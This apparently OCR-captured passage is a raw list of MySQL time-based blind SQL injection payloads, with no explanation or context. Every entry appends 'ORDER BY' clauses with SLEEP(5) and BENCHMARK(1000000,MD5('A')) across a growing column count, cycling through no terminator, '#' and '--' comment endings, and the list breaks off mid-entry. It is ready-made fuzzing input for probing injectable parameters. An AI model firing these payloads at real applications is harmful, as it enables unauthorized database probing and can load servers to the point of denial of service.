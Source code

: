 ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30  ORDER BY SLEEP(5)#  ORDER BY 1,SLEEP(5)#  ORDER BY 1,SLEEP(5),3#  ORDER BY 1,SLEEP(5),3,4#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#  ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#  ORDER BY SLEEP(5)--   ORDER BY 1,SLEEP(5)--   ORDER BY 1,SLEEP(5),3--   ORDER BY 1,SLEEP(5),3,4--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--   ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28--   ORDER BY